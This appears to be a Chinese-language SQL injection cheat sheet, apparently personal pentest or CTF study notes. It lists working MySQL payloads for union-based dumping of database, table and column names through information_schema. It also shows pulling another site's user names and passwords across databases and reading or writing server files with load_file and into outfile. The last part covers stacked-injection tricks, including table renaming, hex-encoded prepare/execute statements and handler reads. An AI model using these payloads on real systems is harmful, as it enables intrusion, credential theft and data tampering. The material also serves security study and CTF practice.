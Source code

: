 
---
 一、MYSQL注入:（目的获取当前web权限）
1、判断常见四个信息（系统，用户，数据库名，版本）
2、根据四个信息去选择方案

#mysql注入

**注入思路**

1、数据库版本-看是否符合information_schema查询-version()

```
	MYSQL5.0以上版本：自带的数据库名information_schema
	
	information_schema：存储数据库下的数据库名及表名，列名信息的数据库
	
	information_schema.schemata：记录数据库名信息的表
	
	information_schema.tables：记录表名信息的表
	
	information_schema.columns：记录列名信息表
	
	schema_name：information_schema.schemata记录数据库名信息的列名值
	
	table_schema：information_schema.tables记录数据库名的列名值
	
	table_name：information_schema.tables记录表名的列名值
	
	column_name：information_schema.columns记录列名的列名值
```

2、数据库用户-看是否符合ROOT型注入攻击-user()

```
	root用户：先测试读写，后测试获取数据
	非root用户：直接测试获取数据
```

3、当前操作系统-看是否支持大小写或文件路径选择-@@version_compile_os

```
	linux:大小写严格
	windows:大小写不严
```

4、数据库名字-为后期猜解指定数据库下的表，列做准备-database()

```mysql
	information_schema：存储数据库下的数据库名及表名，列名信息的数据库
	
	information_schema.schemata：记录数据库名信息的表
	
	information_schema.tables：记录表名信息的表
	
	information_schema.columns：记录列名信息表
	
	schema_name：information_schema.schemata记录数据库名信息的列名值
	
	table_schema：information_schema.tables记录数据库名的列名值
	
	table_name：information_schema.tables记录表名的列名值
	
	column_name：information_schema.columns记录列名的列名值
```
	
==注：若无数据回显，可以尝试使前一个语句为false==

**注入示例**

```mysql
获取字段数
order by 6

查看回显位置
union select 1,2,3,4,5,6

在回显位置插入需要查询数据
union select 1,2,3,database(),user(),6
union select 1,2,3,version(),@@version_compile_os,6

若数据库版本大于mysql5.0，则可以查询information_schema库中的库名、表名、字段名信息
group_concat()将数据放入组中输出

查询数据库名demo01下的信息（借助information_schema库）
库名
union select 1,2,3,4,group_concat(schema_name),6 from information_schema.schemata
表名
union select 1,2,3,4,group_concat(table_name),6 from information_schema.tables where table_schema='demo01'
字段名
union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='admin'
限制显示行数
union select 1,2,3,username,password,6 from admin limit 0,1
```


#PHP-MYSQL-SQL跨库查询
影响条件：当前数据库是否为ROOT用户
测试不同数据库用户：root demo

**跨库注入**
通过B网站的注入点获取A网站的账号密码

```mysql
**跨库查询**
查询库名
union select 1,2,3,4,group_concat(schema_name),6 from information_schema.schemata
查询表名
union select 1,2,3,4,group_concat(table_name),6 from information_schema.tables where table_schema='zblog'
查询字段名
union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='zbp_member' and table_schema='zblog'
查询zblog库中表
union select 1,2,3,mem_Name,mem_Password,6 from zblog.zbp_member
结果
demo 无法查询information_schema表
root 可以查询任何表

```


#PHP-MYSQL-SQL文件读写
影响条件：
1、当前数据库用户权限
2、secure-file-priv设置

测试不同数据库用户：root demo

```mysql
加载目标文件
union select 1,load_file('d:\\1.txt'),3,4,5,6
上传文件
union select 1,'xiaodi',3,4,5,6 into outfile 'd:\\2.txt'
```

读写的路径获取问题：
	1、报错显示获取路径
	2、phpinfo页面泄漏

如果不知道路径思路：
	利用常见的默认的中间件，数据库等安装路径读取有价值信息(phpinfo())

#sql注入过滤
1、单引号过滤
解决：单引号过滤绕过方式
SQL注入语句中用单引号就不要编码(16进制)，编码就不用单引号（路径，表名，数据库名等）

#access无数据库用户 (asp网站mdb为数据库文件)

access注入 sqlmap 靠字典去猜 又可能猜不到表名 列名


堆叠注入
```
基础思路

查看所有数据库  
1'; show databases;
查看所有数据表
1'; show tables;
爆words数据表的字段  
1';show columns from words;#
爆1919810931114514数据表字段（注意数据表为数字的时候需要用反引号括起来）  
1';show columns from `1919810931114514`;#

做题思路

1、通过rename进行改表
pyload示范
1';rename table words to BaiMao;rename table 1919810931114514 to words;alter table words add id int unsigned not NULL auto_increment primary key;alter table words change flag data varchar(100);#


rename修改表名
alter修改已知的列
add增加
int整数类型
unsigned无符号类型
not null- 指示某列不能存储 NULL 值。
primary key - NOT NULL 和 UNIQUE 的结合。指定主键，确保某列（或多个列的结合）有唯一标识，每个表有且只有一个主键。
auto_increment-自动赋值，默认从1开始。


2、编码逃逸 绕过滤
select * from `1919810931114514`;
进行16进制编码加密  
73656c656374202a2066726f6d20603139313938313039333131313435313460
最终payload：  
1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#

prepare…from…是预处理语句，会进行编码转换。
execute用来执行由SQLPrepare创建的SQL语句。
SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。
0x就是把后面的编码格式转换成16进制编码格式
那么总体理解就是，使用SeT方法给变量a赋值，给a变量赋的值就是select查询1919810931114514表的所有内容语句编码后的值，execsql方法执行来自a变量的值，prepare…from方法将执行后的编码变换成字符串格式，execute方法调用并执行execsql方法。

3、handler代替select
pyload
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;
1';handler FlagHere open;handler FlagHere read next;handler FlagHere close;


- 首先打开数据库，开始读它第一行数据，读取成功后进行关闭操作。
- 首先打开数据库，开始循环读取，读取成功后进行关闭操作。


```
